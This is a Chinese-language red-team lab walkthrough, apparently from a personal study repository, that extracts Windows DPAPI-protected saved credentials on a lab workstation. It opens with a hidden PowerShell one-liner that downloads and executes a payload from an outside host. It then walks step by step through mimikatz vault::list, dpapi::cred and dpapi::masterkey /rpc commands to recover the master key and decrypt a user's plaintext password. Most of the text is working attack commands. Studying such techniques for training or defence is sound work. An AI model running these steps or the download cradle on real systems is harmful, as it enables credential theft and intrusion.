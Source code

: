 Data Protection API (DPAPI)是windows里的一个组件，专门用于存储RDP或者第三方软件如谷歌chrome里的数据

powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/a'))"


在wkstn-1上操作,以bfarmer的身份操作。这个实验如果以ntlmb身份操作不能复现

查看
```
ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092436532.png)


执行命令,列出本机所有Windows Credentials
```
run vaultcmd /listcreds:"Windows Credentials" /all
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092477880.png)

上面的等价操作,同样显示有dev/bfarmer的Windows Credentials

```
mimikatz vault::list
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092522448.png)


要解密登录凭据，需要找到```guidMasterKey```

根据上面的信息，执行命令

```
mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092550915.png)


留意这里的masterkey是：```a23a1631-e2ca-4805-9f2f-fe8966fd8698```


主密钥信息存储在用户的```AppData\Roaming\Microsoft\Protect```目录中

执行命令,```S-1-5-21-3263068140-2042698922-2891547269-1120```是用户的SID

```
ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092586556.png)

留意这个文件名：``` a23a1631-e2ca-4805-9f2f-fe8966fd8698```，与我们上面得到的masterkey一致

运行```mimikatz dpapi::masterkey```，指定Master Key信息的路径，并指定操作```/rpc```

```
mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092620590.png)

上面结果留意这个key值，就是解密的秘钥

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092690159.png)


根据秘钥执行解密

```
mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092737039.png)


上面结果得到明文密码

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092778146.png)